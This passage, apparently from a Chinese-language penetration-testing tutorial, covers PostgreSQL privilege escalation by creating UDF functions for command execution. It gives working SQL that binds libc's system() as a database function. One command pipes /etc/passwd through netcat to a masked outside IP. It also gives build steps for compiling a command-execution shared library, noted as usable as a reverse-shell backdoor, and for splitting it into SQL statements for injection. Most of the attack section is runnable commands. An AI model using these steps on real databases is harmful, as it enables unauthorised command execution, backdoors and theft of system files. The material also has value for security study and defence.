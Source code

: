 - - -

# [0x06 PostgreSQL 提权](#toc_0x06-postgresql)

## [利用 UDF 命令执行](#toc_udf)

在 8.2 以前，postgresql 不验证 magic block，可以直接调用本地的 libc.so

```plain
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```

8.2 以上版本，需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的  
\- [https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql](https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql)

可以参考 [No-Github/postgresql\_udf\_help](https://github.com/No-Github/postgresql_udf_help)

```plain
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

[![4.png](assets/1698894509-fcc43973d815e63643341c9e3475b872.png)](https://storage.tttang.com/media/attachment/2022/04/13/41b6682f-0562-4212-b241-54000ddae2d8.png)
